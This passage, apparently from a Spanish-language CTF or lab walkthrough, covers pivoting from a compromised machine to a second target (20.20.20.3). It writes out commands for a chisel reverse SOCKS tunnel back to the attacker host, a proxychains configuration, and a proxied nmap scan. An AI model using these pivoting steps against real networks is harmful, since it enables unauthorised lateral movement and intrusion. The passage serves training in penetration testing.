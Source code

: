 Detectamos otra máquina activa en la IP `20.20.20.3`, lo que indica un posible nuevo objetivo de explotación.

---

## Acceso al Sistema Remoto [20.20.20.3]

Para esta etapa, configuraremos una técnica de túnel inverso usando `chisel` para tener un proxy SOCKS que facilite la enumeración del sistema `20.20.20.3`.

### Preparación de Chisel

1. **En la máquina atacante:** Ejecutamos el servidor de `chisel` en modo reverse:

   ```bash
   ./chisel server --reverse -p 1234
   ```

   > [**Captura de pantalla**: Inicio del servidor `chisel` en la máquina atacante.]

2. **En la máquina comprometida (`10.10.10.2`):** Conectamos a nuestro servidor de `chisel` para crear un túnel y utilizar un proxy SOCKS.

   ```bash
   ./chisel client 10.10.10.1:1234 R:socks
   ```

   > [**Captura de pantalla**: Conexión del cliente `chisel` en la máquina comprometida para el túnel SOCKS.]

### Configuración de Proxychains

Modificamos el archivo `proxychains4.conf` para activar la cadena dinámica y dirigirnos al proxy SOCKS creado:

1. **Descomentamos:** `dynamic_chain`
2. **Comentamos:** `#strict_chain`
3. **Agregamos:** `socks5 127.0.0.1 1080`

---

## Enumeración en la máquina 20.20.20.3

Con el túnel configurado, ahora podemos hacer un escaneo inicial de los puertos de la máquina `20.20.20.3` utilizando `proxychains` con `nmap` para identificar los servicios expuestos.

```bash
proxychains nmap -sCV --top-ports 100 -Pn -sT 20.20.20.3 -oN escaneo.txt 2>&1 | grep -vE 'timeout|OK'
```

> [**Captura de pantalla**: Resultados del escaneo Nmap de `20.20.20.3`.]

Detectamos que los puertos `22` (SSH) y `80` (HTTP) están abiertos. Procedemos a verificar el sitio web en el puerto `80` usando un navegador con `FoxyProxy` configurado para el proxy SOCKS.

> [**Captura de pantalla**: Configuración de FoxyProxy para el proxy SOCKS en Firefox.]

---